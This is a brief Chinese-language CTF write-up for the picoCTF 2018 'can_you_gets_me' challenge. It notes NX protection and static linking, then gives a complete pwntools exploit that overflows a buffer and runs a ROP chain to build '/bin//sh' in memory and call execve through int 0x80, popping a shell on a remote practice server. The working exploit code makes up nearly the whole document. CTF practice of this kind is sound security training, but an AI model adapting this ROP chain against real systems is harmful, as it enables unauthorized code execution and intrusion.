


# picoctf_2018_can_you_gets_me

这里我们查看一下这个程序我们查看一下保护



这里我们看到了一个nx保护


并且得到了一个静态编译



因此我们可以使用syschall的方法打

所以我们的exp

```py
from pwn import *
from struct import pack
io = remote("node5.buuoj.cn",27647)


def payload():
    offset = 0x18
    p = b'A' * (offset + 4)
    p += pack('<I', 0x0806f02a)  # pop edx ; ret
    p += pack('<I', 0x080ea060)  # @ .data
    p += pack('<I', 0x080b81c6)  # pop eax ; ret
    p += b'/bin'
    p += pack('<I', 0x080549db)  # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806f02a)  # pop edx ; ret
    p += pack('<I', 0x080ea064)  # @ .data + 4
    p += pack('<I', 0x080b81c6)  # pop eax ; ret
    p += b'//sh'
    p += pack('<I', 0x080549db)  # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806f02a)  # pop edx ; ret
    p += pack('<I', 0x080ea068)  # @ .data + 8
    p += pack('<I', 0x08049303)  # xor eax, eax ; ret
    p += pack('<I', 0x080549db)  # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080481c9)  # pop ebx ; ret
    p += pack('<I', 0x080ea060)  # @ .data
    p += pack('<I', 0x080de955)  # pop ecx ; ret
    p += pack('<I', 0x080ea068)  # @ .data + 8
    p += pack('<I', 0x0806f02a)  # pop edx ; ret
    p += pack('<I', 0x080ea068)  # @ .data + 8
    p += pack('<I', 0x08049303)  # xor eax, eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0807a86f)  # inc eax ; ret
    p += pack('<I', 0x0806cc25)  # int 0x80
    return p


shell = payload()
io.sendline(shell)
io.interactive()
```

